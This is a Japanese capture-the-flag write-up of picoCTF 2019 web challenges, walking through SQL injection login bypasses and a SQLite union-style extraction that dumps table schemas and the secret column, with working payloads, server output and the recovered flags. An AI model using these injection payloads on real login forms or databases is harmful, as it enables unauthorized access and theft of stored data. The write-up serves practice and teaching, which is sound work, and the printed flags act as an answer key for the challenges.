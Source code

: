 # writeup

# 常設の練習
## picoCTF 2019
https://ctftime.org/task/9545  
### login bypass (Irish-Name-Repo 1)
`https://2019shell1.picoctf.com/problem/47253/`  
SQLインジェクションでadminとしてログインする。  

`admin`,`' or 1=1 -- -`でログイン成功！  
### login bypass (Irish-Name-Repo 2)
`https://2019shell1.picoctf.com/problem/60775/`  
`admin' --`,`なんでも`でusernameの方のSQLインジェクションで成功！  
passwordの方がフィルタリングされてるらしい。`or`が使えないので`||`とかで代用したりいろいろしたがダメだった。  
```txt
// 成功したやつ
admin' --
admin' -- -
admin' ; --
admin' ;#

// 成功しなかったやつ
admin' #
```
### login bypass (Irish-Name-Repo 3)
`https://2019shell1.picoctf.com/problem/47247/`  
htmlのhiddenとして`debug=0`という値をフォームでパスワードと一緒に送信しているので`debug=1`とすると、実行しようとしている
SQL構文がわかる。どうやらpasswordのテキストをrot13で変換してからSQLに突っ込んでいるらしい。  
`' be 1 -- -`とすると`' or 1 -- -`と変換されて以下のように成功！  
```txt
SQL query: SELECT * FROM admin where password = '' or 1 -- -'
```
### SQLite / Union query (Empire1)
`https://2019shell1.picoctf.com/problem/4155/index`  
![image](https://user-images.githubusercontent.com/56021519/103904535-be749400-5140-11eb-906a-43c20766de27.png)  
ログインページにSQLインジェクションがあるかと思えばそういうわけじゃない。  
適当にRegisterして入ってみる。  
![image](https://user-images.githubusercontent.com/56021519/103904708-fa0f5e00-5140-11eb-8396-72ab168d4a4c.png)  
いろいろ試した結果、`Add a Todo`の`'`を挿入するとInternal Server Errorが返り、SQLインジェクションに脆弱だとわかる。  
![image](https://user-images.githubusercontent.com/56021519/103904777-14493c00-5141-11eb-963e-9cbf02554d78.png)  
次にInternal Server Errorが出ないようにして有効にSQLとして動くInjectionを探す。  
Your TodosでSQL実行結果を確認できる。  
```txt
// Internal Server Error
'
' or 1
' or 1=! -- -

// エラーがでない
' || 1=1 || '     1が返る
' || 1=2 || '     0が返る
```
したがって、`' || <SQL>  || '`の構文ならInternal Server Errorを出さずにSQL実行できるとわかる！  
次に、問題文からsecretをDBから取り出す必要があるので、DBを特定する必要がある。  
`' || @@version || '`が成功すればMySQLかMSSQL、`' || version() || '`ならPostgeSQL、`' || sqlite_version() || '`ならSQLiteとわかる。  
今回はSQLiteのやつで`3.22.0 `が返る！  
https://sqliteonline.com/  
ここで適宜ちゃんとSQLite上で動作できるのか触りながらやるとよさそう。  
SQLiteでは、以下のようにして、DB内に存在するテーブルやカラムなどを表示できる！超楽！  
`group_concat()`を使わないと、一つずつしか返ってこない。`users,apps`とかの場合は`users`しか返してくれないので。  
```txt
// 存在するテーブル一覧を返す
SELECT tbl_name FROM sqlite_master
SELECT group_concat(tbl_name) FROM sqlite_master

// 存在するテーブルとそのカラムをセットで返す。こっちの方が情報量多い
SELECT sql FROM sqlite_master
SELECT group_concat(sql) FROM sqlite_master
```
以下のようにして`user`テーブルの`secret`カラムのデータを呼び出すとフラグゲット！  
```txt
' || (SELECT group_concat(secret) FROM user) || '
Likes Oreos.,Know it all.,picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4} 

' || (SELECT secret FROM user) || '
Likes Oreos. 

' || (SELECT group_concat(tbl_name) FROM sqlite_master) || '
user,user,todo 

' || (SELECT tbl_name FROM sqlite_master) || '
user

' || (SELECT * FROM sqlite_master) || '
Internal Server error

' || (union select 10) || '
Internal Server error

' || (SELECT group_concat(sql) FROM sqlite_master) || '
CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) ),CREATE UNIQUE INDEX ix_user_username ON user (username),CREATE TABLE todo ( id INTEGER NOT NULL, item VARCHAR(256), user_id INTEGER, PRIMARY KEY (id), FOREIGN KEY(user_id) REFERENCES user (id) ) 
```
# メモ
https://www.hamayanhamayan.com/entry/2020/06/25/222618  
https://graneed.hatenablog.com/entry/2019/12/29/115100#SQL-Injection  
https://graneed.hatenablog.com/entry/2018/12/16/003745  
https://sqliteonline.com/  
